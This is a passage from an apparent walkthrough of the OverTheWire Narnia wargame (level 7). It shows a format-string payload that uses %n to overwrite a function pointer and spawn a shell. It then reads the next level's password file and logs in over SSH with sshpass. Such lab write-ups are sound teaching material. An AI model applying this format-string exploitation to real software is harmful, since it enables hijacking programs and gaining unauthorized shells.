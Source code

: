 <img src="./img/Screenshot 2024-10-13 123235.png"></img>
This runs the `narnia7` program with the crafted input outside GDB, executing the exploit to obtain a shell.
```bash
goodfunction() = 0x80492ea hackedfunction() = 0x804930f
```
Displays the memory addresses of the `goodfunction` and `hackedfunction`, indicating potential targets for the exploit.
```bash
before : ptrf() = 0x80492ea (0xffffd318)
```
Shows the pointer to the current function, indicating where the program is currently executing.
```bash
I guess you want to come to the hackedfunction... Welcome to the goodfunction, but I said the Hackedfunction..
```
Indicates that the exploit has successfully redirected the program's flow to the intended `hackedfunction`.
```bash
./narnia7 $(echo -e "\x18\xd3\xff\xff")%134517519x%n
```
Run the program again with a slightly different crafted input, attempting to further manipulate execution flow and explore the results.
we got the shell
```bash
cat /etc/narnia_pass/narnia8
```
Move to next level 8:
```bash
sshpass -p `cat narnia8` ssh narnia8@narnia.overthewire.labs.org -p 2226
```

navigate to the `/narnia` directory and examine the source code for Narnia8:
```bash
cd /narnia
cat narnia8.c
```